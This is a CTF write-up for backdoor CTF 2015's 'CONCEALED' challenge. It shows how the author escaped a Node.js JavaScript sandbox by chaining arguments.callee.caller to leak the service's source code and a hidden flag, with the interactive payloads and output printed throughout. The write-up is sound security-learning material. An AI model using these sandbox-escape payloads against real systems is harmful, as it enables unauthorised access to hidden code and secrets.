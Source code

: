 # backdoor CTF 2015: [CONCEALED](https://backdoor.sdslabs.co/challenges/CONCEALED)

**Category:** Exploit
**Points:** 225
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:** TODO
**Solves:** 24
**Description:**

* <https://backdoor.sdslabs.co/challenges/CONCEALED>

> All paths have been concealed. Get the hidden flag: `nc hack.bckdr.in 8005`. Submit sha-256 of the flag

## Write-up

by [mathiasbynens](https://github.com/mathiasbynens)

Let’s connect to the service:

```bash
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in the source code running the service. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
flag: wrong_flag

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  text = 'flag: wrong_flag';
  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

It’s possible to crash the application, which reveals a small part of the source code, but not the flag:

```
home@jail:$ function() { return this; }

/index.js:76
                sys.print(data + '\n');
                               ^
TypeError: Cannot convert object to primitive value
    at /index.js:76:20
    at /node_modules/prompt/lib/prompt.js:316:32
    at /node_modules/prompt/node_modules/utile/node_modules/async/lib/async.js:142:25
    at assembler (/node_modules/prompt/lib/prompt.js:313:9)
    at /node_modules/prompt/lib/prompt.js:322:32
    at /node_modules/prompt/lib/prompt.js:599:5
    at Interface.onLine (/node_modules/prompt/node_modules/read/lib/read.js:111:5)
    at Interface.emit (events.js:95:17)
    at Interface._onLine (readline.js:203:10)
    at Interface.<anonymous> (readline.js:323:12)
```

In JavaScript function contexts, `arguments.callee` refers to the currently executing function. As a result, `arguments.callee.caller` refers to the function that called the current one (i.e. one level up the call stack). This enables us to find out how the sandbox wraps our input:

```
home@jail:$ function() { return String(arguments.callee.caller); }
function () {return (function() { return String(arguments.callee.caller); })()}
```

So, our input gets wrapped in `function () {return ($INPUT)()}` and executed in a sandbox. But what is the `caller` of that function?

```
home@jail:$ function() { return String(arguments.callee.caller.caller); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
```

A-ha! We’re slowly revealing more and more source code, but no flag so far.  We need to go deeper!

Eventually we end up with the following payload which reveals the flag as part of a source code comment:

```
home@jail:$ function() { return String(arguments.callee.caller.caller.caller.caller.caller.caller.caller.caller.caller); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) {
        var type = (schema.properties[propName].type || '').toLowerCase().trim() || undefined;

        //
        // Attempt to parse input as a float if the schema expects a number.
        //
        if (type == 'number') {
          numericInput = parseFloat(line, 10);
          if (!isNaN(numericInput)) {
            line = numericInput;
          }
        }

        //
        // Attempt to parse input as a boolean if the schema expects a boolean
        //
        if (type == 'boolean') {
          if(line === "true") {
            line = true;
          }
          if(line === "false") {
            line = false;
          }
        }

        //
        // If the type is an array, wait for the end. Fixes #54
        //
        if (type == 'array') {
          var length = prop.schema.maxItems;
          if (err) {
            if (err.message == 'canceled') {
              wait = false;
              stdout.write('\n');
            }
          }
          else {
            if (length) {
              if (tmp.length + 1 < length) {
                isValid = false;
                wait = true;
              }
              else {
                isValid = true;
                wait = false;
              }
            }
            else {
              isValid = false;
              wait = true;
            }
            tmp.push(line);
          }
          line = tmp;
        }
      }

      against[propName] = line;
    }

    if (prop && prop.schema.before) {
      line = prop.schema.before(line);
    }

    // Validate
    if (isValid === undefined) isValid = prompt._performValidation(name, prop, against, schema, line, callback);

    if (!isValid) {
      return prompt.getInput(prop, callback);
    }

    //
    // Log the resulting line, append this `property:value`
    // pair to the history for `prompt` and respond to
    // the callback.
    //
    logger.input(line.yellow);
    prompt._remember(propName, line);
    callback(null, line);

    // Make sure `tmp` is emptied
    tmp = [];
  }
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-concealed-writeup/>
* <https://babyphd.net/2015/04/backdoorctf-writeup/>
